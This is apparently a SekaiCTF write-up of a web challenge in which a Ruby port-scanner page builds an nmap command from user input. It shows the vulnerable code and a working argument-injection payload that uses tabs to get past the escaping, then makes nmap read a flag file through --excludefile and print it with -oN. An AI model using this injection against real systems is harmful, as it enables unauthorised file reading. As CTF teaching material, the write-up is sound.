 ```yaml
---
layout: post
current: post
cover:  assets/sekai/nisala/scanner_cover.webp
navigation: True
title: "Vulnerability Scanner"
date: 2023-09-08 10:00:00
tags: [SekaiCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


Scanner? Buddy!

In this challenge, we're presented with a vulnerability scanner, which we can use to scan for open ports at an IP.

![Image of the challenge website](/assets/sekai/nisala/scanner.webp)

Here's what the scanner is doing internally:

```rb
post '/' do
input_service = escape_shell_input(params[:service])
hostname, port = input_service.split ':', 2
begin
    if valid_ip? hostname and valid_port? port
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)
        s.close
        # Assuming valid ip and port, this should be fine
        puts "nmap -p #{port} #{hostname}"
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
    else
        @scan_result = "Invalid input detected, aborting scan!"
    end
end
```


Okay, so we're just inserting text into an `nmap` command. Should be simple enough to exploit, right? Well, it would be... except some characters are being escaped by the function on the second line: 

```
space, $, \`, ", |, &, ;, <, >, (, ), ', \n, *`
```

So that's a lot, but it's definitely not everything. Although it looks like we won't be able to chain commands to run something else in addition to nmap, we can still exploit `nmap` to do some things it shouldn't.

The first problem to get around is adding additional arguments to the `nmap` call. After all, spaces are escaped, right? And this is true... but they forgot about tabs. So we can just use tabs instead of spaces.

The next problem to tackle is what file reading technique to use. See, the flag is stored in a file at a randomized path, and there are a number of ways to get `nmap` to read files, from using nmap scripts like `http-put` to upload files to a remote server, to using a file as a list of places to scan, and more. We started with the second one because it seemed easier, and ended up with a payload like this:

```
# Tabs changed to spaces for readability
1.1.1.1:80 --excludefile /flag-????????????????????????????????.txt
```

This turns into the following `nmap` command:
```
nmap -p 80 --excludefile /flag-????????????????????????????????.txt 1.1.1.1
```

And if you just run this on a computer, it'll give you some great output:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-08 20:34 UTC
Error resolving name "sekai{flag}": Name or service not known

QUITTING!
```

This doesn't work if you run it on the website, though: 

![Image of the challenge website, showing just a starting nmap output and nothing else](/assets/sekai/nisala/scanner_bad.webp)

It seems that this error is sent to `stderr`, but the scanner website only sends output from `stdout`. So, what can we do? Well, after some documentation reading, we realized that we can route all output to `stdout`:

```
# Tabs changed to spaces for readability
1.1.1.1:80 --excludefile /flag-????????????????????????????????.txt -oN	- stdout
```

And there's our flag!

![Image of the challenge website, showing the flag](/assets/sekai/nisala/scanner_flag.webp)

We actually "solved" this challenge hours before we actually did -- we had the right payload from the beginning, but we used "\t" in the input box instead of actual tabs because people on our team didn't set up the Docker container for the challenge and created our own reproduction instead. Lesson learned! :)
